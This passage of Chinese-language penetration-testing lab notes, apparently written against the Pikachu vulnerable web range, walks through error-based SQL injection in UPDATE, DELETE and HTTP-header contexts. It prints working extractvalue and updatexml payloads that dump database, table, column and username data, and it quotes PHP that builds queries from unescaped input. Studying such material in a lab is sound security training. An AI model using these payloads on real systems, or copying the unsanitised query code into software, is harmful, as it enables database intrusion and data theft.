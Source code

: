 **update型注入**

和insert一样，只要闭合正确就ok

`sex=1'+and+extractvalue(1,concat(0x7e,(select+database()),0x7e))+and+'&phonenum=a&add=a&email=a&submit=submit`

```sql
sex=1'+and+extractvalue(1,concat(0x7e,(select+table_name+from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),0x7e))+and+'&phonenum=a&add=a&email=a&submit=submit
```


## delete型

删除语句，没对id进行处理

`$query="delete from message where id={$_GET['id']}";`

尝试删除留言,留言为id参数，加'报错，使用报错注入

`id=56+and+extractvalue(1,concat(0x7e,(select+database()),0x7e))`

```sql
id=56+and+extractvalue(1,concat(0x7e,(select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),0x7e))
```

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220620212459-r9xmzqf.png)

extractvalue无法显示全，使用limit


```sql
id=56+and+extractvalue(1,concat(0x7e,(select+table_name+from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),0x7e))

id=56+and+extractvalue(1,concat(0x7e,(select+column_name+from+information_schema.columns+where+table_name%3d'users'+limit+0,1),0x7e))

id=56+and+extractvalue(1,concat(0x7e,(select+username+from+users+limit+0,1),0x7e))
```

或者使用updatexml函数

```sql
id=56+and+updatexml(1,concat(0x7e,(select+database()),0x7e),1)

id=56+and+updatexml(1,concat(0x7e,(select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),0x7e),1)
```


## header头注入

关键代码

```php
//直接获取前端过来的头信息,没人任何处理,留下安全隐患
$remoteipadd=$_SERVER['REMOTE_ADDR'];
$useragent=$_SERVER['HTTP_USER_AGENT'];
$httpaccept=$_SERVER['HTTP_ACCEPT'];
$remoteport=$_SERVER['REMOTE_PORT'];

//这里把http的头信息存到数据库里面去了，但是存进去之前没有进行转义，导致SQL注入漏洞
$query="insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$userage
nt','$httpaccept','$remoteport')";
$result=execute($link, $query);
```
